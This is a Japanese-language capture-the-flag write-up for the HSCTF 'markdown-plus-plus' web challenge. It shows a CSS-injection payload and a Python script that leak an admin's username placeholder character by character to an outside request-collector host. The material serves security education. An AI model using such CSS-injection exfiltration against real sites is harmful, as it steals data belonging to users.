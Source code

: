 # markdown-plus-plus:web:480pts
Pfft, who needs Markdown? Just roll your own markup language - definitely no bugs in sight.  
[http://web1.hsctf.com:8002](http://web1.hsctf.com:8002/)  
Downloads  
[md++.zip](md++.zip)  

# Solution
URLとソースが渡される。  
アクセスすると、markdownのオリジナルバージョンが動いていた。  
入力したものを加工して表示してくれるようだ。  
Create Page  
[site1.png](site/site1.png)  
使い方は`/help`に書かれている。  
View Page  
[site2.png](site/site2.png)  
さらに`/markdown-plus-plus`で報告して、adminに見てもらうこともできる。  
[site3.png](site/site3.png)  
謎の機能として、ユーザ名を変更できる。  
![image1.png](images/image1.png)  
これはcookieに保存されるので非常に怪しいが、HttpOnlyであるためXSSで盗めそうにない。  
ページのソースをよく見ると以下のようにプレースホルダーとしてレンダリングされている。  
```html
~~~
<form id="login-form" action="/login" method="POST">
	<input name="username" placeholder="Satoki">
	<input type="submit" value="Login">
</form>
~~~
```
adminのplaceholderにflagが書かれていると予測する。  
次に、markdownのオリジナルバージョンを動かしてみる。  
`[h=red akairo]`と入力すると、以下のようにtextに色がついた。  
![image2.png](images/image2.png)  
CSSに色を書き込んでいそうなので、CSSiを狙う。  
ブラウザの開発者ツールで要素のCSSを確認しながら試行錯誤すると、`[h=red;}*{color:blue} akaiyo]`で以下のような表示になった。  
![image3.png](images/image3.png)  
インジェクションできることがわかったので、セレクタで要素をリークすればよい。  
リクエスト受け取り用のサーバは[RequestBin.com](https://requestbin.com/)を利用した。  
`placeholder`の`Satoki`をリークするペイロードは以下になる。  
```
[h=red;}input[placeholder^='Satoki']{background-image:url(https://xxxxxxxxxxxxx.x.pipedream.net?s=Satoki);} Satoki]
```
これを先頭から一文字ずつリークするように加工し、adminに送ればよい。  
文字がヒットした場合リクエストが返ってくるはずである。  
以下のcssi.pyで行う。  
```python
import base64
import requests

flag = ""
my_server = "https://xxxxxxxxxxxxx.x.pipedream.net"

for c in "_{}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
    css_i = f"[h=red;}}input[placeholder^='{flag + c}']{{background-image:url({my_server}?s={flag + c});}} {flag + c}]"
    res = requests.post("http://web1.hsctf.com:8000/markdown-plus-plus", data={"url": f"http://web1.hsctf.com:8002/display#{base64.b64encode(css_i.encode()).decode()}"})
    #print(res.status_code)
    #print(res.text)
```
リクエストを受け取るごとに変数`flag`に文字を追加していく。  
複数回実行すると、以下のように一文字ずつリクエストが取得できる(下から上の順)。  
![image4.png](images/image4.png)  
最終的に`/?s=flag{waterfall_bfutsftfejpk}`のリクエストを得た。  
これがflagとなった。  

## flag{waterfall_bfutsftfejpk}